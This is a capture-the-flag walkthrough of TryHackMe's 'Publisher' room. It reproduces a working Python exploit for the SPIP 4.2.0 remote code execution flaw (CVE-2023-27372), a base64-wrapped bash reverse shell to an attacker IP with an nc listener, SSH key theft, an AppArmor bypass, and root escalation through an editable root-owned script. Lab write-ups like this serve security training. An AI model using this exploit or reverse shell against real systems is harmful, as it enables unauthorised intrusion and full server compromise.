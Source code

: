 # Publisher
<br/>

## Intro
Welcome to the Publisher challenge provided by TryHackMe, here is the link to the [room](https://tryhackme.com/r/room/publisher).
This time we are gonna practice with some web enumeration in order to find a vulnerable service to exploit and get an initial access to the target machine. Leater on we will have to escalate our privileges to root abusing a missconfigured application.

Whenever you feel ready press "start the machine" and connect via OpenVPN or using the AttackBox

<br/>
<br/>

## The Challenge
For this challenge i have decided to rely, for the enumeration phase, to rely solely on a script that i have created called "[easyscan](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/345af89c317ba7e4174a8f1d639d9a8c48eecb4c/Bash-Scripts/EasyScan.sh)", it will do an nmap scan showing us that port 80 (http) and 22 (ssh) are open.
Moving on, fuzzing for subdomains we get no matches but we can find 2 "hidden" directories: /images/ and /spip/

We can now navigate to the website and take a look at them, the images one appears to be of no interest for us, bu in the other one we have  the chance to pass some input to the PHP backed.

In fact when we try to insert some random input we get this URL
```http
http://MACHINE-IP/spip/spip.php?page=
```
Our input gets URL encoded and appended to the URL.

Another thing to notice is the spip version 4.2.0, now we can look for known vulnerabilities.

We can either search online or on the local Kali ExploitDB directly with:
```bash
searchsploit spip 4.2.0
```

It comes out that there is an RCE exploit already waiting for us "`php/webapps/51536.py`" we can run it with python3
```bash
python3 exploit.py -u URL -c COMMAND-TO-EXECUTE
```

**Note**: i have personally had some problems, like some other users, with python running that script due to an urlib3 error (` module 'urllib3.util.ssl_' has no attribute 'DEFAULT_CIPHERS'`), since my system was already up to date and nothing worked even creating a custom virtual environment for it, we can modify the script to avoid that error.

I still suggest running any downloaded exploit in a virtual environment
```bash
python3 -m venv venv
source ./ven/bin/activate
pip3 install requests bs4 argparse
```


```python
#!/usr/bin/env python3

import argparse
import bs4
import requests

def parseArgs():
    parser = argparse.ArgumentParser(description="PoC of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7")
    parser.add_argument("-u", "--url", default=None, required=True, help="SPIP application base URL")
    parser.add_argument("-c", "--command", default=None, required=True, help="Command to execute")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode. (default: False)")
    return parser.parse_args()

def get_anticsrf(url):
    r = requests.get('%s/spip.php?page=spip_pass' % url, timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        csrf_value = csrf_input['value']
        if options.verbose:
            print("[+] Anti-CSRF token found: %s" % csrf_value)
        return csrf_value
    else:
        print("[-] Unable to find Anti-CSRF token")
        return -1

def send_payload(url, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    r = requests.post('%s/spip.php?page=spip_pass' % url, data=data)
    if options.verbose:
        print("[+] Execute this payload: %s" % payload)
    return 0

if __name__ == '__main__':
    options = parseArgs()

    # Disable SSL warnings and comment out the following lines
    requests.packages.urllib3.disable_warnings()
    #requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    #try:
	#   requests.packages.urllib3.contrib.pyopenssl.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    #except AttributeError:
     #   pass


    csrf = get_anticsrf(url=options.url)
    if csrf != -1:
        send_payload(url=options.url, payload="s:%s:\"<?php system('%s'); ?>\";" % (20 + len(options.command), options.command))

```

Now we have a working exploit!

As the command to execute we can choose a simple reverse shell in bash and apply some base64 encoding to avoid problems with the characters

Encoding the payload 
```bash
echo -n "bash -i >& /dev/tcp/YOUR-IP/1234 0>&1" | base64 -w0
```

Finally we have to set up a listener, we can use netcat:
```bash
nc -lvnp 1234
```


Run the exploit:
```bash
python3 exploit_fixed.py -u http://MACHINE-IP/spip -c "echo B64_ENCODED_REVERSE_SHELL_HERE | base64 -d | bash"
```

And we have now a shell as the user think!

We can get the first flag:
```bash
cat /home/think/user.txt
```


<br/>

### Privilege Escalation
The shell we got previously is pretty bad, but looking around in the home directory we can notice that in `.ssh` there is the ssh key for the sure.
We can copy it on our machine and save it as id_rsa, change it's permission:
```bash
chmod 600 id_rsa
```

And login via SSH:
```bash
ssh think@publisher.thm -i id_rsa
```

Now we have a more interactive and stable environment to play with.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Nothing interesting is popping out.

Following the hint "look at apparmor profiles" i went to explore the `apparmor.d` directory:
```
cd /etc/apparmor.d
```

Here there is one interesting file called `usr.sbin.ash`, specifically this part:
```
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,
```

Reading this we can understand why (if you have tried to create a file) we can not make or download files on the machine, apparmor is blocking it on some directories.
If we watch it closely we can notice that 2 directories miss the "inheritance" of the deny
```bash
cd /var/tmp
cp /bin/bash .
./bash -p
```
`-p` to exclude its ability to read user files

Now we can try if it works by navigating to /opt which was forbidden for us
```bash
cd /opt
ls -la
```

Looks like we can list the files, we have bypassed the "deny read", maybe we can even edit files? as there is one script "run_container.sh" which is owned by root.

It comes out that we can edit it, now we can do whatever we like as the bash script  will run as root: this means that we can run as root any command, for the challenge let's just read the last flag:
```bash
#!/bin/bash

cat /root/root.txt
```

Now run it:
```bash
run_container
```

And here we have the root flag printed on the screen.

<br/>
<br/>

Congratulations you have successfully found the 2 flags and exploited the machine! 

Catch you in the next CTF 😃 
